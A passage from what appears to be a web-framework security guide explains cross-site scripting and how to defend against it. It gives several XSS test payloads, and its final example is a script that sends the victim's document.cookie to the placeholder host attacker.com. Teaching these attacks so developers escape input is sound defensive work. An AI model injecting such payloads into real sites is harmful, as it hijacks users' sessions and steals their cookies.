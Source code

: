 XSS attacks work like this: An attacker injects some code, the web application saves it and displays it on a page, later presented to a victim. Most XSS examples simply display an alert box, but it is more powerful than that. XSS can steal the cookie, hijack the session, redirect the victim to a fake website, display advertisements for the benefit of the attacker, change elements on the web site to get confidential information or install malicious software through security holes in the web browser.

During the second half of 2007, there were 88 vulnerabilities reported in Mozilla browsers, 22 in Safari, 18 in IE, and 12 in Opera. The [Symantec Global Internet Security threat report](http://eval.symantec.com/mktginfo/enterprise/white_papers/b-whitepaper_internet_security_threat_report_xiii_04-2008.en-us.pdf) also documented 239 browser plug-in vulnerabilities in the last six months of 2007. [Mpack](http://pandalabs.pandasecurity.com/mpack-uncovered/) is a very active and up-to-date attack framework which exploits these vulnerabilities. For criminal hackers, it is very attractive to exploit an SQL-Injection vulnerability in a web application framework and insert malicious code in every textual table column. In April 2008 more than 510,000 sites were hacked like this, among them the British government, United Nations, and many more high profile targets.

#### HTML/JavaScript Injection

The most common XSS language is of course the most popular client-side scripting language JavaScript, often in combination with HTML. _Escaping user input is essential_.

Here is the most straightforward test to check for XSS:

```html
<script>alert('Hello');</script>
```

This JavaScript code will simply display an alert box. The next examples do exactly the same, only in very uncommon places:

```html
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
```

##### Cookie Theft

These examples don't do any harm so far, so let's see how an attacker can steal the user's cookie (and thus hijack the user's session). In JavaScript you can use the document.cookie property to read and write the document's cookie. JavaScript enforces the same origin policy, that means a script from one domain cannot access cookies of another domain. The document.cookie property holds the cookie of the originating web server. However, you can read and write this property, if you embed the code directly in the HTML document (as it happens with XSS). Inject this anywhere in your web application to see your own cookie on the result page:

```
<script>document.write(document.cookie);</script>
```

For an attacker, of course, this is not useful, as the victim will see their own cookie. The next example will try to load an image from the URL http://www.attacker.com/ plus the cookie. Of course this URL does not exist, so the browser displays nothing. But the attacker can review their web server's access log files to see the victim's cookie.

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```
